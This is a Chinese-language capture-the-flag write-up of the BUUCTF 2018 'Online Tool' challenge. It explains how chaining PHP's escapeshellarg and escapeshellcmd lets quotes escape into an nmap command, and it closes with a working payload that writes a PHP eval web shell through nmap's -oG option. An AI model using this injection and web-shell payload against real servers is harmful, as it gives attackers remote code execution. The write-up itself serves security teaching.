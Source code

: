 # BUUCTF 2018

## Online Tool

> *2021/07/16*

### 题目

直接给了源码

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

题是代码执行，考察的是[`escapeshellarg`和`escapeshellcmd`](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)联合使用的问题

> `escapeshellarg` — 把字符串转码为可以在 shell 命令里使用的参数
>
> **功能** **：escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)**

> `escapeshellcmd` — shell 元字符转义
>
> **功能：`escapeshellcmd()` 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [`exec()`](http://php.net/manual/zh/function.exec.php) 或 [`system()`](http://php.net/manual/zh/function.system.php) 函数，或者 [`执行操作符`](http://php.net/manual/zh/language.operators.execution.php) 之前进行转义。**
>
> 反斜线（\）会在以下字符之前插入： *&#;`|\*?~<>^()[]{}$*, *\x0A* 和 *\xFF\*。 \*’* 和 *“* 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 *%* 和 *!* 字符都会被空格代替

本身是安全的的，但是合在一起使用就不安全，以这道题为例，很明显是一个**命令执行**的题，`nmap`可以通过`-oG`参数写入`webshell`，但是由于`escapeshellarg`和`escapeshellcmd`的转义，会导致常规的注入失败，举个例子，如果我们正常注入`<?php eval($_POST['bme']);?> -oG 1.php`，经过这两个函数会变成这样

- `'<?php eval($_POST['\''bme'\'']);?> -oG 1.php'`

这一个首先是将两个`'`进行转义，但是转义之后，前后无法生成字符串，这时候就需要将他们用`'`括起来

- `'\<\?php eval\(\$_POST\['\\''bme'\\''\]\)\;\?\> -oG 1.php'`

而第二个则是将特殊字符进行转义，同时对未配对的单引号进行转义，看起来很乱，但是在`shell`里跑一下就知道了

![buuctf20181](img/buuctf2018/buuctf20181.png)

我们发现有一部分由于第二个函数，导致了部分逃逸`\\`，`bme`参数也消失了，而我们就是要利用`'`在第一遍被转义，第二遍逃逸这种特性，来进行绕过，我们试一试`'<?php eval($_POST['bme']);?> -oG 1.php'`

- `''\''<?php eval($_POST["bme"]);?>  -oG 1.php'\'''`
- `''\\'' \<\?php eval\(\$_POST\["bme"\]\)\;\?\> -oG 1.php '\\'''`

在`shell`中的执行效果是这样的

![buuctf20182](img/buuctf2018/buuctf20182.png)

我们发现，在`shell`中，许多`''`实现了逃逸，由于`\\`反斜线把自己转移了导致了`'`的逃逸

### payload

```
?host=' <?php eval($_POST["bme"]);?> -oG 1.php '
```
